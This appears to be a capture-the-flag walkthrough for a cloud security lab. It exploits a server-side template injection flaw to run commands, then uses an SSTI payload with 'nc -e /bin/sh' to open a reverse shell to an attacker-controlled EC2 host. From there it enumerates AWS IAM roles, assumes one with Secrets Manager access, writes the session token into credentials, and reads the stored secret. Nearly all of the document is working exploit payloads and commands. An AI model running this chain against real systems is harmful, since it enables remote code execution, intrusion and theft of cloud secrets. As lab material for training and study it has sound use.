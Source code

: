 1. Access and exploit given web application with SSTI vulnerability

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('ls',shell=True,stdout=-1).communicate()}}</div>
    ```

2. Prepare an EC2 instance which will serve as attacker's server
   - Allow TCP traffic from victim's server coming to port `4444` in Security group
   - Open port `4444` using `nc`
   - You may use other port instead of `4444`

    ```bash
    nc -lvp 4444
    ```

3. Run below payload on vulnerable web application
   - It will give control over `web application`'s server to `attacker`'s  server.

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('nc -e /bin/sh Public_IP_address_of_attacking_server 4444 ',shell=True,stdout=-1).communicate()}}</div>
    ```
4. List IAM roles 
    - Use EC2 instance created at `2.`
    ```bash
    # List IAM role which contains word "SSTI"
    aws iam list-roles | grep SSTI
    ```
5. List attached policies of IAM role
   - Look for role which contains  `secretsmanager`

    ```bash
    aws iam list-attached-role-policies --role-name name_of_role_you_want
    ```
6. Assume role

    ```bash
    aws --region us-east-1 sts assume-role --role-arn arn_of_role_you_want --role-session-name any_name
    ```

7. configure profile `assumed-role` to use credentials retrieved above

    ```bash
    aws configure --profile assumed-role
    ```

8. Use `echo` to add `aws_session_token` to `~/.aws/credentials`

    ```bash
    echo 'aws_session_token = SessionToken_retrieved_above' >> ~/.aws/credentials
    ```

9.  Access secrets using configured profiles 

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager list-secrets | grep SSTI
    ```

10. Get flag

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager get-secret-value --secret-id arn_of_flag
    ```
